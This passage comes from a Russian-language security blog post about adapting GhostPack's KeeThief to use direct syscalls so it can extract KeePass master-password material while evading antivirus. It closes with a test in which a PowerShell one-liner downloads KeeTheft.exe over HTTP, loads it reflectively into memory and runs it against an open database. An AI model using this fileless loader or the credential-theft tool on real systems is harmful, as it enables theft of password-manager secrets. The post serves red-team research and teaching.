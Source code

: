 Основное отличие, как ты уже догадался, в том, что Native API не знает, что такое управляемые массивы .NET, поэтому приходится изменять логику для работы с неуправлямой памятью.

Собственно, остальные вызовы Win32 API легко находятся по Ctrl-F в [Program.cs](https://github.com/GhostPack/KeeThief/blob/master/KeeTheft/KeeTheft/Program.cs), и для них проделываются те же манипуляции, что мы разобрали для `ReadProcessMemory`. Результат можно подглядеть в моем [форке](https://github.com/snovvcrash/KeeThief/tree/syscalls/KeeTheft/KeeTheft).

## Время для теста!

Я скомпилирую модифицированную сборку и создам тестовую базу данных KeeThief с паролем `Passw0rd!`. Версия программы KeePass, на которой я это проверял – самая свежая на момент написания статьи (2.50).

Грузим в память и дергаем точку входа при открытой БД KeePass.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.0.184/KeeTheft.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
$a = [KeeTheft.Program]::Main(" ")
```

[![keetheft-kis.png](/assets/images/keethief-syscalls/keetheft-kis.png)](/assets/images/keethief-syscalls/keetheft-kis.png)
{:.center-image}


[//]: # (2022-03-29)